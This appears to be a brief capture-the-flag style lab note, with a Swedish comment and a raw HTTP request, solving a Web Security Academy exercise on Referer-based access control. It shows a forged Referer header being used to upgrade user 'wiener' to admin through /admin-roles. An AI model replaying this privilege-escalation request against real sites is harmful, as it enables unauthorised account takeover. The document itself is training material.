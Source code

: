i referer header, om man tar bort /admin kan man inte hantera användare. men om man har /admin kan alla göra det sålänge de har requesten lmao noob 

GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0abe00db03f89b8f80d9bd2b00fc00ba.web-security-academy.net
Cookie: session=tiVIy6YwfuI8h0zCzkuAeOVYK2xavS3O
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abe00db03f89b8f80d9bd2b00fc00ba.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


